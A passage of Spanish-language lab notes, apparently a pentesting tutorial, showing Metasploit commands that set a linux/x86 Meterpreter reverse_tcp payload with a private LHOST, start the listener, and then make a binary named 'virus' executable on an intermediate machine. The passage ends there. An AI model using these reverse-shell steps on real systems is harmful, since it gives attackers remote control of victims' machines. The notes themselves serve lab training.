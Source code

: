 
- Miramos las opciones y ponemos las que necesitemos. Tenemos que tener qen cuenta que **debemos cambiar también el payload por que no es el mismo que el de nuestro archivo virus.**
    
    `set PAYLOAD linux/x86/meterpreter/reverse_tcp`
    
    `set LHOST 10.0.3.4`
    
    `show options`
    
    ![image.png](./imagenes/image%2067.png)
    

- Lo ejecutamos para ponerlo a la escucha.
    
    `run`
    
    ![image.png](./imagenes/image%2068.png)
    

- En el terminal de la maquina intermedia ejecutamos el archivo virus
    
    `ls`
    
    `chmod +x virus`
    